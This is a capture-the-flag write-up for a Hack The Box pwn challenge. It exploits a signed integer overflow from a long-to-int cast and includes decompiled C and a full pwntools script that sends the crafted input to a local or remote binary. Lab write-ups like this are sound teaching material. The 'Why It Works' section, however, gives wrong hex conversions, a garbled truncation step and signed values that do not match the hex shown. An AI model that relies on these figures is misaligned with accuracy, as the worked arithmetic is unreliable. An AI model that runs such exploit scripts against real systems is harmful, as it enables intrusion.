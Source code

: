 ```yaml
---
title: "Mathematricks 🧠 - Signed Integer Overflow Exploit Writeup"
tags: [HTB, binary exploitation, signed overflow, pwn]
---
```


![pwntools](https://img.shields.io/badge/pwntools-✔️-brightgreen)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Category](https://img.shields.io/badge/category-Pwn-orange)
![Challenge](https://img.shields.io/badge/Challenge-red)

# Mathematricks 🧠

How about a magic trick? Or a math trick? Beat me and I will give you an amazing reward!

## 📚 Table of Contents
- [Binary Protections Analysis 🛡️](#binary-protections-analysis-️)
- [Program Behavior 📟](#program-behavior-)
- [Reverse Engineering 🔍](#reverse-engineering-)
- [Exploitation Strategy 💣](#exploitation-strategy-)
- [Full Exploit Script 🧨](#full-exploit-script-)
- [Exploitation Result ✅](#exploitation-result-)
- [Conclusion 🧾](#conclusion-)

## Binary Protections Analysis 🛡️

We begin by running `checksec` on the binary:

![Checksec Output](https://github.com/user-attachments/assets/6418a92b-ca8b-4297-822e-3513f35c5e8c)

Findings:
- ✅ Full RELRO  
- ✅ Stack Canary found  
- ✅ NX enabled  
- ✅ PIE enabled  
- ❌ No FORTIFY

## Program Behavior 📟

Upon launching the binary, we are presented with two options:

![Program Menu](https://github.com/user-attachments/assets/736c8f34-35de-4583-aaa1-388f0d9e6c02)

Choosing the **"Rules"** option displays the following message:

> Solve the math questions to get the flag, some of them are tricky!

## Reverse Engineering 🔍

In Ghidra, we decompiled the `game()` function:

![Ghidra Decompiled Game Function](https://github.com/user-attachments/assets/7bf67697-dc68-4e61-ae4c-207f080802b9)

We notice a simple chain of mathematical questions. Most of them are straightforward:

```c
if ((0 < lVar1) && (0 < lVar2)) {
    if ((int)lVar1 + (int)lVar2 < 0) {
        read_flag();
    }
}
```

The catch lies in the **last condition**, which leads to `read_flag()`.

## Exploitation Strategy 💣

The trick comes from how `long` values (64-bit) are cast into `int` (32-bit signed) values.

### 🔢 Limits:
- **Signed long (64-bit)**: -9,223,372,036,854,775,808 → 9,223,372,036,854,775,807  
- **Signed int (32-bit)**: -2,147,483,648 → 2,147,483,647

Even if we input a positive long, when casted to an `int`, we can **cause a signed overflow** by truncating the upper bits.  

This happens here:

```
if ((int)lVar1 + (int)lVar2 < 0)
```

By providing:
- `n1 = 1`
- `n2 = 1337133713371337`

→ The `int` cast of `n2` overflows to a **negative number**, satisfying the condition.

### 🧠 Why It Works

Let’s analyze the difference between two values:

#### ➤ Value 1: `133713371337`  
- In hex (64-bit): `0x0000001F24E6D099`
- Truncated 32 LSB (int): `0x24E6D099`
- Binary conversion: 00100100111001101101000010011001 (first bit = 0, positive number)  
- Interpreted as **signed int**: **+619825177** ✅ still positive

#### ➤ Value 2: `1337133713371337`  
- In hex (64-bit): `0x04CFF4073DD9`
- Truncated 32 LSB (int): `0x073DD9` → in full: `0xF4073DD9`
- Binary conversion: 11110100000001110011110111011001 (first bit = 1, negative number)
- Interpreted as **signed int**: **-199303543** ❌ negative!

The high bit (MSB) is `1` in the casted 32-bit value, marking it as **negative** when interpreted as a `signed int`.

Thus:
```
(int)1 + (int)-199303543 = -199303542 < 0 → condition met ✅
```

(With n2 = 2147483647 it works too, because the first bit of the truncated 32 LSB of n1 + n2 (2147483648) is equal to 1, even if 2147483647 is lower than 133713371337.)

## Full Exploit Script 🧨

```python
from pwn import *
import argparse

def main():
    parser = argparse.ArgumentParser(description="Exploit mathematricks (local or remote)")
    parser.add_argument("-r", "--remote", help="Remote mode with IP and port", nargs=2, metavar=("IP", "PORT"))
    parser.add_argument("-l", "--local", help="Local mode with a binary", metavar="BINARY")
    args = parser.parse_args()

    if args.remote:
        ip, port = args.remote
        p = remote(ip, int(port))
    elif args.local:
        p = process(args.local)
    else:
        print("Please specify an execution mode: -r IP PORT or -l BINARY")
        return

    emoji_prompt = b'\xf0\x9f\xa5\xb8 '  # 🥸 prompt in UTF-8

    p.sendlineafter(emoji_prompt, b'1')             # Enter in game
    p.sendlineafter(b'> ', b'2')                    # Q1: 1 + 1 = ?
    p.sendlineafter(b'> ', b'1')                    # Q2: 2 - 1 = ?
    p.sendlineafter(b'> ', b'0')                    # Q3: 1337 - 1337 = ?
    p.sendlineafter(b'n1: ', b'1')                  # n1
    p.sendlineafter(b'n2: ', b'1337133713371337')   # crafted value for overflow

    print(p.recvall().decode(errors="ignore"))

if __name__ == "__main__":
    main()
```

## Exploitation Result ✅

And here's the final output with the flag:

![Exploit Result](https://github.com/user-attachments/assets/26504540-8213-48d7-937e-3e8dba22e77c)

```
HTB{f4k3_fl4g_f0r_t35t1ng}
```

## Conclusion 🧾

This challenge was a great example of a **signed integer overflow** logic bug.

- We leveraged the fact that a `long` is downcast to a `signed int`, possibly resulting in negative values.
- By choosing the right large 64-bit number, we forced an overflow and passed the logic check.

A perfect mix of math and low-level understanding 🔐🧠

🔙 [Back to Challenge Writeups](../../)
